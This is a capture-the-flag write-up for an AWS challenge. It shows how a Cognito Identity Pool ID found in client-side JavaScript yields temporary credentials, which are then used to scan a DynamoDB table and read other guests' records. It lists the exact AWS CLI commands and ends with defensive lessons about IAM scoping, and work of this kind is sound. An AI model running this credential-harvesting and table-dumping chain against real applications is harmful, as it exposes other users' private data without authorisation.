








# 3. Complimentary

**Category:** Cloud / AWS
**Difficulty:** Easy

---

## 1. Introduction

Complimentary was an AWS cloud challenge involving an S3-hosted web application, Amazon Cognito, temporary AWS credentials, and DynamoDB.

The objective was to:

1. Identify how the application obtains AWS credentials.
2. Obtain those temporary credentials.
3. Use them to access the application's DynamoDB table.
4. Retrieve more data than the application normally displays.
5. Find the flag inside another guest's record.

---

# 2. Inspecting the Web Application

The target was:

```text
http://complimentary-wellness-app-332173347248.s3-website-us-east-1.amazonaws.com/
```



I opened the application and inspected the JavaScript using **Developer Tools → Sources**.

Inside `app.js`, I found:

```javascript
const IDENTITY_POOL_ID = "us-east-1:..........";
const AWS_REGION = "us-east-1";
const TABLE_NAME = "complimentary-GuestWellnessProfiles";

AWS.config.region = AWS_REGION;

AWS.config.credentials = new AWS.CognitoIdentityCredentials({
    IdentityPoolId: IDENTITY_POOL_ID,
});
```



This immediately revealed that the application was using an **Amazon Cognito Identity Pool** to obtain AWS credentials.

It also revealed the DynamoDB table name:

```text
complimentary-GuestWellnessProfiles
```

---

# 3. Understanding How the Application Gets Credentials

The application used:

```javascript
new AWS.CognitoIdentityCredentials({
    IdentityPoolId: IDENTITY_POOL_ID,
});
```

This means the browser itself requests temporary AWS credentials from Cognito.

The application then uses those credentials to access DynamoDB.

The relevant code was:



The important observation was that the credentials weren't hardcoded into the JavaScript.

Instead:

```text
Browser
   ↓
Cognito Identity Pool
   ↓
Temporary AWS credentials
   ↓
DynamoDB
```

So the next step was to obtain those credentials ourselves.

---

# 4. Obtaining a Cognito Identity

I used the Identity Pool ID discovered in `app.js`.

You need to install `awscli` to access the DynamoDB table

```bash
sudo apt install awscli
```

First, I requested an identity from Cognito:

```bash
aws cognito-identity get-id --identity-pool-id "$POOL_ID" --region us-east-1
```

This will return an `IdentityId` similar to:

```text
us-east-1:xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx
```



I stored the identity ID for the next request.

---

# 5. Requesting Temporary AWS Credentials

I then requested credentials for that Cognito identity:

```bash
aws cognito-identity get-credentials-for-identity --identity-id "$IDENTITY_ID" --region us-east-1
```

The response contained temporary credentials:

```text
AccessKeyId
SecretKey
SessionToken
Expiration
```



These weren't permanent AWS credentials.

They were temporary credentials issued by the Cognito Identity Pool.

I exported them into the current shell session:

```bash
export AWS_ACCESS_KEY_ID='REDACTED'
export AWS_SECRET_ACCESS_KEY='REDACTED'
export AWS_SESSION_TOKEN='REDACTED'
export AWS_DEFAULT_REGION='us-east-1'
```

---

# 6. Verifying the AWS Identity

Before accessing DynamoDB, I verified which AWS identity I was operating as:

```bash
aws sts get-caller-identity
```



The command successfully returned the current AWS identity.

This confirmed that the Cognito-issued temporary credentials were valid.

---

# 7. Understanding the DynamoDB Access

The JavaScript showed that the normal application behavior was:

```javascript
dynamodb.getItem(...)
```

with the current user's generated guest ID:

```javascript
function guestId() {

    let id = localStorage.getItem("byteLotusGuestId");

    if (!id) {
        id = "guest-" + Math.random().toString(36).slice(2, 10);
        localStorage.setItem("byteLotusGuestId", id);
    }

    return id;
}
```

So the application normally retrieves only the record associated with the current guest ID.

However, the challenge specifically stated:

> Use those credentials to dump more than your own record from the app's DynamoDB table.

This suggested that the IAM permissions associated with the Cognito identity were broader than what the application itself exposed.

---

# 8. Scanning the DynamoDB Table

I used the table name discovered earlier:

```bash
aws dynamodb scan --table-name complimentary-GuestWellnessProfiles
```



Instead of returning only my own guest record, the `scan` operation returned multiple records from the DynamoDB table.

This demonstrated the key misconfiguration:

```text
Application:
GetItem → current guest_id

IAM permissions:
Scan → entire table
```

The application's frontend was restricting what the user could normally see, but the underlying AWS identity had enough permissions to retrieve the entire table.

---

# 9. Finding the Flag

The DynamoDB scan returned multiple guest wellness profiles.

Among the records was another guest's data containing the flag.

The relevant record contained:

```text
[FLAG REDACTED]
```



This completed the challenge.

---

# 10. Attack Chain

The complete exploitation path was:

```text
                Public S3 Website
                       |
                       v
                 Inspect app.js
                       |
                       v
             Cognito Identity Pool ID
                       |
                       v
               Cognito get-id
                       |
                       v
                Identity ID
                       |
                       v
       get-credentials-for-identity
                       |
                       v
          Temporary AWS credentials
                       |
                       v
              sts get-caller-identity
                       |
                       v
           DynamoDB permissions
                       |
                       v
             DynamoDB Scan
                       |
                       v
             Other guest records
                       |
                       v
                     FLAG
```

---

# 11. Vulnerability

The main issue was **overly permissive authorization for the Cognito-issued IAM identity**.

The application intended to allow a guest to retrieve their own profile:

```text
GetItem(current_guest_id)
```

But the temporary AWS identity had permissions that allowed a much broader operation:

```text
Scan(entire_table)
```

This meant a user could bypass the application's intended access boundary by interacting directly with DynamoDB using the temporary credentials issued to the browser.

---

# 12. Key Takeaways

### 1. Inspect client-side JavaScript

The frontend revealed:

```text
Identity Pool ID
AWS Region
DynamoDB Table Name
```

Even though these aren't necessarily secrets individually, they provide valuable information about the cloud architecture.

### 2. Understand how cloud applications authenticate

The important discovery was:

```text
Cognito Identity Pool
        ↓
Temporary credentials
        ↓
AWS services
```

Once I understood this flow, I could reproduce the application's authentication process.

### 3. Frontend restrictions are not authorization

The application only requested:

```text
GetItem(current_guest_id)
```

That does **not** mean the AWS credentials themselves are restricted to that record.

The real authorization boundary is the IAM policy attached to the Cognito identity.

### 4. Always test the permissions of temporary credentials

After obtaining temporary AWS credentials, I didn't assume they could only perform the operation used by the frontend.

Testing the actual AWS permissions revealed that the identity could perform a DynamoDB scan.

### 5. `Scan` can expose an entire DynamoDB table

The application was designed around individual guest records, but:

```bash
aws dynamodb scan --table-name complimentary-GuestWellnessProfiles
```

returned the entire dataset available to the identity.

---

# 13. Conclusion

This was my first AWS cloud CTF, and the main thing I learned was that **the frontend is not the security boundary**.

The application appeared to restrict each guest to their own profile, but the browser was also holding temporary AWS credentials.

Once those credentials were obtained, I could interact directly with the underlying AWS service.

The key lesson:

```text
Don't ask only:

"What can the application do?"

Also ask:

"What can the AWS identity behind the application do?"
```

That difference was what allowed me to access another guest's record and retrieve the flag.